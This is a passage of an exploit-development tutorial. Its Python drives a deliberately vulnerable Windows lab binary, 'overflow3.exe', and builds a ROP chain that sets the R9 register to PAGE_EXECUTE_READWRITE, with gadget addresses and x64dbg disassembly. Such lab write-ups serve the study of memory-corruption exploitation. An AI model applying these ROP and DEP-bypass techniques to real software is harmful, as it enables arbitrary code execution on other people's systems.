 ```python

# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```

![image](https://github.com/user-attachments/assets/76992969-5779-4212-b805-c77d4ceec4bd)

> **R9 Register**

For the `R9` register, we will be setting it to `0x40`, which equates to: `flProtect = PAGE_EXECUTE_READWRITE`

```python
#rop gadgets for setting the R9 register value
###################################

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140000018)  # 0x40
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
payload += b"\x90" * 16 
payload += struct.pack("<Q", 0x140007CA5)  # mov r9, rbx <see more below>

"""
0000000140007CA5 | 49:89D9                  | mov r9,rbx                           |
0000000140007CA8 | E8 D3FCFFFF              | call overflow3.140007980             |
0000000140007CAD | 48:98                    | cdqe                                 |
0000000140007CAF | 48:83C4 48               | add rsp,48                           |
0000000140007CB3 | 5B                       | pop rbx                              |
0000000140007CB4 | 5E                       | pop rsi                              |
0000000140007CB5 | 5F                       | pop rdi                              | 
0000000140007CB6 | 5D                       | pop rbp                              |
0000000140007CB7 | C3                       | ret                                  |
"""
payload += b"\x90" * 72 
payload += b"\x90" * 32 

#r9 register should now hold the value 0x40 (I hate this register)
```

